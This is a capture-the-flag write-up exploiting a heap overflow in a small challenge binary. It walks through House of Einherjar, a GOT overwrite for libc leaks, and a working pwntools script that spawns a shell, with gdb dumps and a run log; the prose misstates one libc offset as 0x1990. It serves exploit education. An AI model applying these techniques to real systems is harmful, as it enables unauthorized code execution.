

For this challenge created by Uafio, we are given a program and its corresponding source code.


#include <stdio.h>
#include <stdlib.h>
int i = 0;
char tmp[0x80];
char* ptrs[10];
int main() {
        setvbuf(stdout,NULL,_IONBF,0);
        setvbuf(stdin,NULL,_IONBF,0);
        printf("Hello OTA Stream\n");
        while (1) {
                printf( "\n1. Alloc 0x80\n"\
                        "2. Free index\n"\
                        "3. Write to tmp\n"\
                        "4. Write to heap\n"\
                        "> ");
                int choice;
                scanf("%d", &choice);
                getchar();
                if (choice == 1) {
                        char* p = malloc(0x80);
                        printf("Alloced: %p\n", p);
                        ptrs[i] = p;
                        i = ((i + 1) % 10);
                }
                else if (choice == 2) {
                        int idx;
                        printf("Index to free: ");
                        scanf("%d", &idx);
                        getchar();
                        free(ptrs[idx % 10]);
                        ptrs[idx % 10] = 0;
                }
                else if (choice == 3) {
                        fgets(tmp, 0x80, stdin);
                }
                else if (choice == 4) {
                        int writeIdx;
                        printf("Write index: ");
                        scanf("%d", &writeIdx);
                        getchar();
                        fgets(ptrs[writeIdx % 10], 0x100, stdin);
                }
                else { printf("Invalid choice.\n"); }
        }
        return 0;
}



$ file OTA_challenge_of_the_month
OTA_challenge_of_the_month: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=12a2b9d9f0cdb167b18fd1055546dcae6736ed12, not stripped


If we run `checksec`, we can see that NX is enabled, but PIE is disabled and RELRO is only partially enabled.


gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


Therefore, we can perform a **GOT overwrite** if we're able to gain a *write-what-where* primitive and leak the address of `system()` in libc.

## Vulnerability
There is an obvious heap overflow vulnerability in choice 4, which allows us to write `0x100` bytes into a heap chunk allocated for a `0x80` byte request.

We can use a technique called "House of Einherjar" to exploit this vulnerability in order to gain a *write-what-where* primitive.

## House of Einherjar Exploit

House of Einherjar is another ptmalloc2 heap exploitation technique that gives us the ability to force `malloc()` to return an arbitrary pointer.
**All it requires, at minimum, is a single *off-by-one* NULL byte overflow primitive and a heap leak.**
The way it works is by leveraging a heap overflow in chunk A to corrupt the `prev_size` and `cur_size` fields of the next bordering chunk, chunk B, so that the `prev_inuse` bit in the `cur_size` field of chunk B is flipped off, and so that chunk B's `prev_size` field is overwritten with a very large value.
This tricks the memory allocator into thinking that chunk B's previous bordering chunk is free, so that it then attempts to perform a backwards consolidation with it, using the corrupted `prev_size` field to calculate the beginning of this fake free chunk.
Once the consolidation is complete, and the chunk is placed in the unsorted freelist bin, the next `malloc()` call should return a pointer to where the memory allocator thinks this newly merged free chunk starts.
**This gives us a *write-what-where* primitive, if we are also allowed to write data that we control into this heap chunk.**

Although in this particular program, we are given a very large heap overflow, we can also pull House of Einherjar off if we are just given a single off-by-one null byte overflow into a heap chunk whose size is ideally aligned with `0x100` (plus the `0x1` `prev_inuse` bit).

Regardless of the severity of the heap overflow, **House of Einherjar does require a heap leak in order to work!** 
I will explain why as we go along.

So, with that being said, how do we perform a House of Einherjar exploit?

First we will allocate 3 chunks. Let's call the first chunk: A, the second chunk: B, the third chunk: C.

Then we will overflow chunk A's data that we control, into chunk B's metadata.
Specifically, we will corrupt the `prev_size` field of chunk B and overwrite it with a large value and corrupt the `cur_size` field of chunk B by flipping its `prev_inuse` bit off. 

Flipping the `prev_inuse` bit off will trick the memory allocator into thinking that chunk B's previous bordering chunk is free. 

The large value that we will overwrite the `prev_size` field with, which should right now be empty as no chunks have been freed yet, is determined by using the following calculation: `new_size = chunk_B - target`. `target` is the arbitrary address **minus 8 bytes** that we would like the next `malloc()` to return. `chunk_B` is the address of chunk B on the heap, **which is what** `malloc()` **returns minus 8 bytes.** And finally, `new_size` is just the large value that we will place in the `prev_size` field.

*The astute reader will realize that we need a heap leak in order to make this calculation.*

For example, if chunk B's actual address (not what `malloc()` returns), is at address `0x8858088` and we want `malloc()` to return an address within the `tmp` global array, say, `0x804a0b8`, the `prev_size` of chunk B will be overwritten with `0x8858088 - 0x804a0b0 = 0x80dfd8`.

The reason for this calculation is because when a heap chunk is about to be freed, the memory allocator checks to see if either the heap chunk after it or the heap chunk before it are also free.
If the chunk after it is also free, it performs a forward consolidation of the two chunks and places the result in the appropriate freelist.
If, however, it is the chunk before it is that is also free, then a backwards consolidation is performed.
If both A and C are free and then B is freed, both a forward AND backwards consolidation are performed.

The `prev_size` is used in backwards consolidations to determine where the previous bordering chunk is located. 
It will do something like `chunk_B - chunk_B->prev_size` and the resulting address will be what the memory allocator thinks is the start of the previous free chunk.
By setting this `prev_size` field to a large value, we can potentially trick the memory allocator into thinking that the previous chunk starts somewhere at a much different address than it should. Perhaps, even in an area in the .BSS segment or the GOT ;)

For this particular program, we will get `malloc()` to return an address from within the `tmp` global array. 
Then we will write data to this newly malloc'd chunk and overwrite pointers stored in the `ptrs` global array, which is located immediately after the `tmp` global array. 

This is what the heap looks like before any data is written to chunk A.

gdb-peda$ x/100xw 0x8858008-8
0x8858000:	0x00000000	0x00000089	0x00000000	0x00000000
0x8858010:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858020:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858030:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858040:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858050:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858060:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858070:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858080:	0x00000000	0x00000000	0x00000000	0x00000089
0x8858090:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858100:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858110:	0x00000000	0x00000089	0x00000000	0x00000000
0x8858120:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858130:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858140:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858150:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858160:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858170:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858180:	0x00000000	0x00000000	0x00000000	0x00000000


And here is what it looks like after:


gdb-peda$ x/100xw 0x8858008-8
0x8858000:	0x00000000	0x00000089	0x41414141	0x41414141
0x8858010:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858020:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858030:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858040:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858050:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858060:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858070:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858080:	0x41414141	0x41414141	0x0080dfd8	0x00000088
0x8858090:	0x0000000a	0x00000000	0x00000000	0x00000000
0x88580a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858100:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858110:	0x00000000	0x00000089	0x00000000	0x00000000
0x8858120:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858130:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858140:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858150:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858160:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858170:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858180:	0x00000000	0x00000000	0x00000000	0x00000000


Notice how we've changed chunk B's `cur_size` field from `0x89` to `0x88`, in order to flip the `prev_inuse` bit off.
Besides that bit, we still need to preserve the original size field of that chunk, as this size is also used to check whether or not the bordering next chunk is free.

Also note that we have overwritten the `prev_size` field with `0x80dfd8`, using the calculation mentioned before.

In our `tmp` global buffer, we've set up our fake chunk as follows.
 

gdb-peda$ x/64xw 0x804a060
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000000	0x0804a0b0	0x0804a0b0
0x804a0c0 <tmp+96>:	0x0000000a	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x08858008	0x08858090	0x08858118	0x00000000
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000


Our fake chunk will start at `0x804a0b0`. There is no need to set the `cur_size` field of this fake chunk to anything so we just set it to `0x0`.
Our `p->fd` and `p->bk` pointers are both set to point back to itself, or `0x0804a0b0`, which will allow us to bypass safe unlinking checks, which verify that `p->fd->bk = p` and `p->bk->fd = p`.

After we call `free()` on chunk B, we can observe that it has successfully been backwards consolidated with a fake chunk at address `0x804a0b0`. 


gdb-peda$ x/64xw 0x804a060
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x0080e061	0xf7708450	0xf7708450
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x08858008	0x08858090	0x08858118	0x00000000
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
 

Notice that the size is now very large: `0x0080e061`.
That is because the memory allocator now thinks that this chunk takes up all the memory space from to `0x804a0b0` to `0x8858114`.
**This is no good and will cause the next** `malloc()` **to fail due to size checks.**

Therefore, we need to edit our `tmp` global buffer again, but this time, simply to replace the fake chunk size with something much smaller.
A fake chunk size of `0x100` will do.


0x804a0b0 <tmp+80>:	0x00000000	0x00000100	0xf770840a	0xf7708450


Of couse, this means that the newline character that comes at the end of our stdin input  will corrupt `fake_chunk->fd`, but that we don't care about that, as no checks are run on it!

Once we've made that change, we observe that our next `malloc()` call successfully returns `0x804a0b8`!


gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0xf7708c20 --> 0xfbad208b 
ECX: 0xf77098a4 --> 0x0 
EDX: 0xa ('\n')
ESI: 0x0 
EDI: 0x0 
EBP: 0xffb9fbf8 --> 0x0 
ESP: 0xffb9fbd0 --> 0x80 
EIP: 0x8048669 (<main+142>:	call   0x8048480 <malloc@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804865f <main+132>:	jne    0x80486c9 <main+238>
   0x8048661 <main+134>:	sub    esp,0xc
   0x8048664 <main+137>:	push   0x80
=> 0x8048669 <main+142>:	call   0x8048480 <malloc@plt>
   0x804866e <main+147>:	add    esp,0x10
   0x8048671 <main+150>:	mov    DWORD PTR [ebp-0x10],eax
   0x8048674 <main+153>:	sub    esp,0x8
   0x8048677 <main+156>:	push   DWORD PTR [ebp-0x10]
Guessed arguments:
arg[0]: 0x80 
[------------------------------------stack-------------------------------------]
0000| 0xffb9fbd0 --> 0x80 
0004| 0xffb9fbd4 --> 0x0 
0008| 0xffb9fbd8 --> 0x0 
0012| 0xffb9fbdc --> 0x8048659 (<main+126>:	mov    eax,DWORD PTR [ebp-0x18])
0016| 0xffb9fbe0 --> 0x1 
0020| 0xffb9fbe4 --> 0x1 
0024| 0xffb9fbe8 --> 0x8858118 --> 0x0 
0028| 0xffb9fbec --> 0x2ed01100 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048669 in main ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x804a0b8


## Infoleaks
Now that we have successfully forced `malloc()` to return an arbitrary pointer in the middle of the `tmp` global, we need to leverage this somehow to get code execution.

Because this is a dynamically linked binary, we already have the `system()` function loaded into memory from libc.

Also, remember that only partial RELRO is enabled, which allows us to perform a GOT overwrite and force one of the GOT entires to inappropriately call `system()` while passing in a pointer to the string `"/bin/sh\0"`.

In order to do this though, we first need to get an infoleak in order to get the base address of libc so that we can dynamically resolve the address of `system@libc`, which changes everytime the process starts, due to ASLR.

If we examine what our **.got.plt** and **.bss** sections look like right now, after our House of Einherjar `malloc()` has finished and the pointer to our newly malloc'd chunk has been placed in the `ptr[]` global array, we will see the following.


gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf773e938	0xf77314f0	0xf7594280
0x804a010:	0xf75bdc60	0xf75ae4a0	0xf75aab20	0xf75bd6b0
0x804a020:	0xf75ac650	0xf7560990	0xf75acd30	0xf759cf40
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040 <stdin@@GLIBC_2.0>:	0xf76f1c20	0xf76f1ac0	0x00000000	0x00000004
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000089	0xf76f1548	0xf76f1548
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x09a89008	0x00000000	0x09a89118	0x0804a0b8
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000


We can associate the **.got.plt** entries which start at `0x804a00c`, with the following functions.

Let's take a quick look again at the `free` code block.

else if (choice == 2) {
	int idx;
	printf("Index to free: ");
	scanf("%d", &idx);
	getchar();
	free(ptrs[idx % 10]);
	ptrs[idx % 10] = 0;
}


It looks like if we can trash the GOT and overwrite `free@got` with the address of `puts()`, we can print out arbitrary data from an pointer we place into the `ptrs[]` array. This would give us a *read-what-where* primitive, and the ability to leak out **GOT** entries! 

Unfortunately, we don't know the address of `puts@libc` or `puts@got` yet, so we can't overwrite `free@got` with either of those addresses.  

However, we can still get this infoleak to work if we replace the GOT entry for `free@got`, located at `0x804a010`, with the address of `puts@plt`, or `0x8048490`,

Observe that the first instruction of `puts@plt` is a jmp to `puts@got`, which will already be populated with the correct `puts@libc` address.


0x08048490 <puts@plt+0>:	jmp    DWORD PTR ds:0x804a020



gdb-peda$ pdisas 0xf75ac650
Dump of assembler code from 0xf75ac650 to 0xf75ac670::	Dump of assembler code from 0xf75ac650 to 0xf75ac670:
   0xf75ac650 <_IO_puts+0>:	push   ebp
   0xf75ac651 <_IO_puts+1>:	push   edi


So, basically we will make `*0x804a010 = 0x8048490` and pass in an index into `ptrs[]` that we write our desired **GOT Table** location that we'd like to leak to.

In my final exploit, I could not only overwrite the `free@GOT` function, because the newline char from our user input would annoyling leak into the lsb of `getchar@got`, and cause a segfault the next time `getchar()` was called.  

Basically it would turn this:

0x804a010:  0xf75bdc60  0xf75ae4a0


into this:

0x804a010:  0x08048490  0xf75ae40a


`0xf75ae40a` is not the address we want executing when `getchar()` is called!

So, to get around this issue, I overwrote `getchar@got` and `fgets@got` with their corresponding `@plt` entries `+6`! Or `0x08048466` and `0x08048476`, respectively.
We `+6` to the PLT addresses because the first instruction of any **.plt** address is just a jump to the corresponding function in the **got.plt** section which would've cause an infinite loop.


gdb-peda$ pdisas 0x08048460
Dump of assembler code from 0x8048460 to 0x8048480::	Dump of assembler code from 0x8048460 to 0x8048480:
   0x08048460 <getchar@plt+0>:	jmp    DWORD PTR ds:0x804a014
   0x08048466 <getchar@plt+6>:	push   0x10
   0x0804846b <getchar@plt+11>:	jmp    0x8048430
 

*The astute reader will now point out that the newline char would just move over into the lsb of `malloc@got` which is correct, but we don't actually care that `malloc@got` is now corrupt because we don't plan on calling `malloc()` again for the rest of our exploit!*
 
So to put all this together, I wrote the addresses of the **GOT** entries I wanted to leak into the `ptr` array, and called the `free()` function, which now actually calls `puts@plt`, on each one of the `ptr` indices.
 
Ultimately, this is what our **.got.plt** and **.bss** sections should look like after everything is correctly setup, but before the `free()`'s.

gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf773e938	0xf77314f0	0xf7594280
0x804a010:	0x08048490	0x08048466	0x08048476	0xf75b000a
0x804a020:	0xf75ac650	0xf7560990	0xf75acd30	0xf759cf40
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040 <stdin@@GLIBC_2.0>:	0xf76f1c20	0xf76f1ac0	0x00000000	0x00000004
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000089	0x00000000	0x00000000
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x0804a010	0x0804a00c	0x0804a014	0x0804a0e0
0x804a0f0 <ptrs+16>:	0x0804a020	0x0804a024	0x0000000a	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
 

Note that `0x08048466` will be overwritten with `getchar@libc` the next time `getchar()` or `getchar@plt` is called. Therefore, we will still be able to leak out `getchar@libc`.

After all of our `free()` calls are done, we get the following leaks.


[+] printf@libc found at: 0xf7605280
[+] getchar@libc found at: 0xf761f4a0
[+] puts@libc found at: 0xf761d650
[+] __libc_start_main@libc found at: 0xf75d1990
 

Often times when doing these types of challenges on a remote server, we will not know what libc the challenge is using. 
One way to get around this is use a tool like [libc-database](https://github.com/niklasb/libc-database) to look in a database of libc's.
Another option is to use [dynelf](http://docs.pwntools.com/en/stable/dynelf.html).

For my exploit, I just used **libc-database** and checked my leaks against a local corpus of libc's that our CTF team, OpenToAll has. 


$ ./find printf 0xf7605280
ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.6_i386)
/vagrant/ring0/libc.so.6 (id local-2dad7f468baa4c7f24c565f62b14667307f9964d)

$ ./dump local-2dad7f468baa4c7f24c565f62b14667307f9964d
offset___libc_start_main_ret = 0x19a83
offset_system = 0x00040190
offset_dup2 = 0x000db590
offset_read = 0x000dabd0
offset_write = 0x000dac50
offset_str_bin_sh = 0x160a24



The first command `find` just looks up our specified name and address in our libc corpus and returns any hits.
In this case, it returned 2 hits, but both libc's are actually the same, so we can just dump offsets for one of them.

This gives us the offset that `system@libc` exists from `libc_base`: `0x40190`.

But for us to dynamically calculate `system@libc`, we still need to know an offset of one of our leaks from `libc_base`.

Grepping through the libc's symbols tells us what we need.


rh0gue@vexillum:~/libc-database$ less db/libc6_2.19-0ubuntu6.6_i386.symbols | grep __libc_start_main
__libc_start_main 00019990


It looks like `__libc_start_main@libc` exists at an offset of `0x1990` from `libc_base`.

With this information, we now have all we need to dynamically calculate the address of `system@libc`!

*Protip: to update your local libc-database corpus, just run `./get` and if a repo fails, just comment it out and try again.*

## GOT Overwrite

The final step of our exploit will be overwriting a **GOT** entry to make it call `system("/bin/sh\0");`.

`free@got` is, again, a suitable candidate, because it takes in a pointer that we can control in `ptrs`.

We choose to write the string "/bin/sh" oursevles into `ptrs` rather than using the "/bin/sh" leak we got from **libc-database** because the libc offset, `0x160a24` contains a newline char which can be problematic.

So, after the `ptrs` array is set up, it should look like this:

0x804a0e0 <ptrs>:	0x0804a010	0x0804a0e8	0x6e69622f	0x0068732f
0x804a0f0 <ptrs+16>:	0x0000000a	0x00000000	0x0000000a	0x00000000


And `free@got` entry should now be overwritten with the calculated address of `system@libc`. 


gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf7769938	0xf775c4f0	0xf75bf280
0x804a010:	0xf75b2190	0xf75d94a0	0xf75d5b20	0xf75e000a
...
<snipped>
gdb-peda$ pdisas 0xf75b2190
Dump of assembler code from 0xf75b2190 to 0xf75b21b0::	Dump of assembler code from 0xf75b2190 to 0xf75b21b0:
   0xf75b2190 <__libc_system+0>:	push   ebx
   0xf75b2191 <__libc_system+1>:	sub    esp,0x8
...
<snipped>


We will finally call `free(1)` to execute `system("/bin/sh\0");`!

Putting everything together, we are able to get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

def alloc():
    r.sendline("1")
    chunk = r.recvline().split(" ")[1].rstrip('\n')
    r.recvuntil("> ")
    return int(chunk,16)-8

def free(index, parse=False):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    if parse == True:
        return r.recvuntil("> ")
    else:
        r.recvuntil("> ")

def tmp(data):
    r.sendline("3")
    r.sendline(data)
    r.recvuntil("> ")

def heap(index, data):
    r.sendline("4")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.sendline(data)
    r.recvuntil("> ")

def exploit(r):
    r.recvuntil("> ")

    log.indented("Starting House of Einherjar technique...")

    ### ALLOCATE 3 CHUNKS ###
    c1 = alloc()
    c2 = alloc()
    log.success("heap chunk leaked: "+hex(c2))
    c3 = alloc()

    ### OVERWRITE C2 PREV_SIZE & PREV_INUSE BIT ###
    target = 0x804a0b0 # address in middle of tmp

    log.info("triggering heap overflow")
    payload  = "A"*0x80
    payload +=  p32(c2-target)       # prev_size
    payload +=  p32(0x88)            # original size but w/ prev_inuse bit disabled

    heap(0,payload) # overflow c1 buffer into c2

    ### CRAFT FAKE CHUNK IN C2-PREV_SIZE ###  
    log.info("crafting fake chunk in .bss")   
    fake_chunk  = p32(0)*22      # set prev_size, size to 0x0
    fake_chunk += p32(0x804a0b0) # safe-unlinking bypass ; fake_p->fd
    fake_chunk += p32(0x804a0b0) # safe-unlinking bypass ; fake_p->bk

    tmp(fake_chunk) # set up fake chunk in tmp

    ### TRIGGER BACKWARDS CONSOLIDATE OF C2 W/ FAKE CHUNK ###
    free(1) # free chunk 2

    ### RESTORE FAKE CHUNK SIZE ###
    log.info("restoring fake chunk size") # restoration required to pass size checks
    fake_chunk  = p32(0)*21
    fake_chunk += p32(0x100) # because of newline, will set size of fake chunk to 0x100 and let newline corrupt lsb of fake_p->fd

    tmp(fake_chunk) # rewrite fake chunk's size to 0x100

    ### CALL MALLOC() TO RETURN ARBITRARY POINTER ###
    c4 = alloc()
    log.success("HoE succeeded! heap chunk returned: "+hex(c4))

    log.indented("Starting infoleaks...")

    ### POPULATE PTRS GLOBAL W/GOT ADDRS ###
    payload  = p32(0x0)*10     
    payload += p32(0x804a010)  # ptrs[0] ; free@GOT
    payload += p32(0x804a00c)  # ptrs[1] ; printf@GOT
    payload += p32(0x804a014)  # ptrs[2] ; getchar@GOT     
    payload += p32(0x804a0e0)  # ptrs[3] ; &ptrs
    payload += p32(0x804a020)  # ptrs[4] ; puts@GOT
    payload += p32(0x804a024)  # ptrs[5] ; __libc_start_main@GOT

    heap(3, payload) # populate ptrs[]
    
    ### CORRUPT free@GOT W/puts@PLT ###
    payload  = p32(0x8048490)
    # must restore newline char-corrupted .GOT pointers
    payload += p32(0x8048466) # getchar@plt+6 ; restore *getchar()
    payload += p32(0x8048476) # fgets@plt+6   ; restore *fgets()  
    
    heap(0,payload) # overwrite *free@got with puts@plt 
    
    ### TRIGGER LEAKS ###
    printf = u32(free(1,True)[:4])          # puts(0x804a00c)
    getchar = u32(free(2,True)[:4])         # puts(0x804a014)
    puts = u32(free(4,True)[:4])            # puts(0x804a020)  
    libc_start_main = u32(free(5,True)[:4]) # puts(0x804a024)  
    
    libc_base = libc_start_main-0x19990
    system = libc_base+0x40190

    log.success("printf@libc found at: "+hex(printf))           
    log.success("getchar@libc found at: "+hex(getchar))         
    log.success("puts@libc found at: "+hex(puts))     
    log.success("__libc_start_main found at: "+hex(libc_start_main)) 
    log.success("libc base found at: "+hex(libc_base))
    log.success("system@libc found at: "+hex(system))

    ### OVERWRITE free@GOT w/ system@libc  ###
    # system("/bin/sh"); payload
    payload = p32(0x804a010)  # keep free@GOT 
    payload  = p32(system)    # system@libc 
    payload += p32(0x8048466) # getchar@plt+6 # restore *getchar()
    payload += p32(0x8048476) # fgets@plt+6   # restore *fgets()
    
    heap(0,payload) # overwrite free@GOT ptr w/ system@libc
    log.success("free@GOT overwritten with system@libc")

    ### WRITE "/bin/sh\0" TO PTRS[] ###
    payload  = p32(0x804a010) # keep free@GOT
    payload += p32(0x804a0e8) # addr inside ptrs[] w/ "/bin/sh\0" string
    payload += "/bin/sh\0"     
    
    heap(3, payload)
    log.success('"/bin/sh" written to: 0x804a0e8')
  
    ### free(1) TO TRIGGER system("/bin/sh\0") ###
    log.indented("Spawning shell...") 
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("1")
       
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/HouseOfEinherjar/OTA_challenge_of_the_month'])
        print util.proc.pidof(r)
        pause()
        exploit(r)


rh0gue@firenze:~/Documents/HouseOfEinherjar$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/home/rh0gue/Documents/HouseOfEinherjar/OTA_challenge_of_the_month': Done
[9801]
[*] Paused (press any to continue)
    Starting House of Einherjar technique...
[+] heap chunk leaked: 0x811b088
[*] triggering heap overflow
[*] crafting fake chunk in .bss
[*] restoring fake chunk size
[+] HoE succeeded! heap chunk returned: 0x804a0b0
    Starting infoleaks...
[+] printf@libc found at: 0xf7633280
[+] getchar@libc found at: 0xf764d4a0
[+] puts@libc found at: 0xf764b650
[+] __libc_start_main found at: 0xf75ff990
[+] libc base found at: 0xf75e6000
[+] system@libc found at: 0xf7626190
[+] free@GOT overwritten with system@libc
[+] "/bin/sh" written to: 0x804a0e8
    Spawning shell...
[*] Switching to interactive mode
$ id
uid=1000(rh0gue) gid=1000(rh0gue) groups=1000(rh0gue),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),127(kvm),128(libvirtd)
$ 

